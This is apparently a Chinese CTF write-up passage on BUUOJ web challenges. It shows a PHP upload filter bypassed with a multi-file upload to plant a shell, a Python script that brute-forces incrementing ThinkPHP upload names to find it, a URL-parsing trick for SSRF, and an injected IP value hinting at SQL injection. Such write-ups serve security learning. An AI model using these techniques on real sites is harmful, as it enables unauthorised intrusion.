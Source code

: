 ```php
 $uploadFile = $_FILES['file'] ;
if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
```

如果上传多个文件, $uploadFile内包含多个文件,`strstr(strtolower($uploadFile['name']), ".php")`自然也就无效了,接下来就是获取文件名,就可以getshell,因为thinkphp文件名是递增的,所以也就很容易获取到想要的文件了

```pyhon
import requests
url="http://aba32602-5c6b-4a9f-bfa6-bbf2ca660f7e.node3.buuoj.cn/Public/Uploads/2019-10-18/"
i=(int("5da9dd208595a",16)+1)
while True:
	print(url+hex(i)[2:]+".php")
	res=requests.get(url+hex(i)[2:]+".php")
	print(res.status_code)
	if(res.status_code==200):
		print(url+hex(i)[2:]+".php")
		break

	i+=1
```



虽然说可以爆出来，不过也要跑好一会



### Online Proxy

利用libcurl和paras_url的差异来判断

http://node3.buuoj.cn:28001/?url=http://user@39.108.164.219@ccccccccccccc.com

200

http://node3.buuoj.cn:28001/?url=http://user@ccccccccccccc.com@39.108.164.219

504

而访问http://node3.buuoj.cn:28001/?url=http://39.108.164.219

也是504,所以有可能使用file_get_contents来访问url

刚开始一直盯着url,后面看到收集信息,99%是sql注入的题

就是不知道要收集什么信息

```html
<!-- Debug Info: 
 Duration: 0.20821499824524 s 
 Current Ip: 127.0.0.1  -->
<!-- Debug Info: 
 Duration: 0.34751987457275 s 
 Current Ip: '# 
Last Ip: ' -->
```
